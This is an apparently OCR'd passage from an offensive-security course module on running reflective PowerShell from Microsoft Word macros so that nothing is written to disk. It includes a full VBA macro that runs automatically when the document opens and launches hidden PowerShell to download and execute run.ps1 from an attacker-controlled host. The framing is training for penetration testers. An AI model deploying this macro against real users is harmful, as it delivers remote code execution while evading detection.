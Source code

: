 In this Learning Module, we will cover the following Learning Unit:

- Including Reflective Code

As security professionals, we must often avoid detection during exploitation, meaning it's preferable to perform attacks that reside entirely in memory. In this Module, we will combine the tradecraft we have developed so far to make use of PowerShell and C# code inside Client-Side attacks without writing to disk.

## 7.1. Including Reflective Code

This Learning Unit covers the following Learning Objectives:

- Reflective PowerShell in Client-Side Attacks
- Reflective C# in Client-Side Attacks

In this Learning Unit, we will implement the reflective PowerShell in Client-Side attacks like Microsoft Word macros, as well as investigate how to execute C# code in a reflective manner.

## 7.1.1. Reflective PowerShell in Client-Side Attacks

In previous modules, we developed the ability to craft a Microsoft Word macro that can contain a reverse shellcode runner. The main problem of this technique is that the shellcode itself would be written to disk temporarily. We have since developed the concept of reflective PowerShell - next, we must combine them so we can execute a reflective PowerShell shellcode runner from a Microsoft Word macro.

Listing 1 shows the Microsoft Word macro we developed previously:

```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.50.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

> Listing 1 - VBA code calling the PowerShell cradle that executes the shellcode runner

The _AutoOpen_ and _Document_Open_ procedures will execute the _MyMacro_ procedure when the Word document is opened. The MyMacro procedure will start PowerShell and execute a download cradle of the file **run.ps1** from our Kali machine. Once the contents of the file are downloaded into the variable _str_, the content is executed.

To avoid writing any artifacts to disk, we'll replace the previous content of the **run.ps1** file with the reflective PowerShell shellcode runner we developed, shown below:
